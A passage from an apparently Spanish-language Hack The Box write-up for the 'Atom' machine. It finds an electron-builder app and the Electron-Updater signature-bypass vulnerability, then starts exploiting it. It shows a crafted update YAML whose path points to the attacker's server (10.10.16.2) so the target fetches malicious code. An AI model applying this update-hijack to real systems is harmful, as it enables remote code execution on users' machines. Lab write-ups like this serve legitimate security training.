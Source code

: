 
Vemos que contiene información acerca de una aplicación en `electron-builder`


Si bajamos un poco observamos qmas información donde nos dice que para iniciar el proceso QA debemos de poner las actualizaciones en uno de los directorios con el nombre `client` que curiosamente son los mismo cuando listamos los recursos compartidos con `smbmap`.


> Electron - builder : Una solución completa para empaquetar y crear una aplicación Electron lista para su distribución para macOS, Windows y Linux con soporte de "actualización automática".

Si buscamos vulnerabilidades asociadas a `electron builder`, encontramos  una de evasión de la validación de firmas que conduce a `RCE` en Electron-Updater.

Basicamente esta vulnerabilidad se aprovecha de `Electron-Updater` y nos permite ejecutar codigo malicioso en el software.


Te dejo el articulo para que puedas entenderlo mejor:

* [https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)

![](/assets/images/HTB/htb-writeup-Atom/atom3.PNG)


Para poder explotarla vamos a utilizar una estructura similar a la que nos comparten en el articulo y le pondremos la extensión `yml`.

```bash
version: 1.2.3
path: http://10.10.16.2/test
sha512: fjqwiofhqw21321 21ie21e2r
```
